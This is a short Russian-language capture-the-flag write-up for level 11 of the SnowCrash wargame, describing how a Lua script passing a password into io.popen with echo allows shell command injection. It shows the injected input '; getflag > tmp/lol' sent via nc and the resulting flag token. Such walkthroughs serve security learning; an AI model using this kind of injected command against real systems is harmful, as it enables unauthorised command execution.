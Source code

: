 Ну, собсно, оказалось всё просто.
В папке лежит LUA скрипт, запрашивающий у нас пароль, и выдающий фразу в зависимости от пароля.
Шо не удивительно, владелец у скрипта flag11.

Начинаем рыться в коде, в гугле, в мануалах по LUA....
Ни черта не находим, но язык простой. 

Натыкаемся в коде на строчку 
prog = io.popen("echo "..pass.." | sha1sum", "r"
И это наводит нас на мысль.......
....
....
....
Он же обращается к консоли! (Там echo, если что)
Судя по всему, можно провести инъекцию, причём от flag11.

Путём проб и ошибок, мучений и страданий доходим до команды "; getflag > tmp/lol"
Точка с запятой для того, чтобы отделить echo от нашей команды.

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ; getflag > tmp/lol
Erf nope..
level11@SnowCrash:~$ cat /tmp/lol
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
